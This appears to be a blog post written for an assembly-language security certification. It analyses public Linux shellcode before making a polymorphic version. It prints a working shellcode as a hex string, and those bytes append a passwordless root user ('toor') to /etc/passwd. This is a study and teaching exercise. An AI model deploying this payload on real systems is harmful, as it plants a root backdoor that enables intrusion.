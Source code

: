 Title: SLAE32 - Assignment 6.2
Date: 2022-06-04T14:09:03.000Z


## Disclaimer


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-30398

## Foreword

For this assignment, I chose the following shellcodes:

<ol>
- [Linux/x86 - chmod 666 /etc/passwd &amp; /etc/shadow - 57 bytes](http://shell-storm.org/shellcode/files/shellcode-812.php)

- [Linux/x86 - append /etc/passwd &amp; exit() - 107 bytes](http://shell-storm.org/shellcode/files/shellcode-561.php)

- [Linux/x86 - iptables --flush - 43 bytes](http://shell-storm.org/shellcode/files/shellcode-825.php)

In this part I'll create a polymorphic version of the second shellcode.

## Source Code

The files for this part of the assignment are the following:

- [original_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/2/original_shellcode.nasm), the original shellcode from Shell-Storm

- [polymorphic_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/2/polymorphic_shellcode.nasm), my polymorphic version of the shellcode above

- [test_polymorphic_shellcode.c](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/2/test_polymorphic_shellcode.c), a C program for testing the polymorphic shellcode

## Analysis

First, we need to analyze the original shellcode:

```bash
echo -n "\xeb\x38\x5e\x31\xc0\x88\x46\x0b\x88\x46\x2b\xc6\x46\x2a\x0a\x8d\x5e\x0c\x89\x5e\x2c\x8d\x1e\x66\xb9\x42\x04\x66\xba\xa4\x01\xb0\x05\xcd\x80\x89\xc3\x31\xd2\x8b\x4e\x2c\xb2\x1f\xb0\x04\xcd\x80\xb0\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xc3\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x23\x74\x6f\x6f\x72\x3a\x3a\x30\x3a\x30\x3a\x74\x30\x30\x72\x3a\x2f\x72\x6f\x6f\x74\x3a\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x20\x23" > shellcode.bin

ndisasm -b 32 -p intel shellcode.bin
```
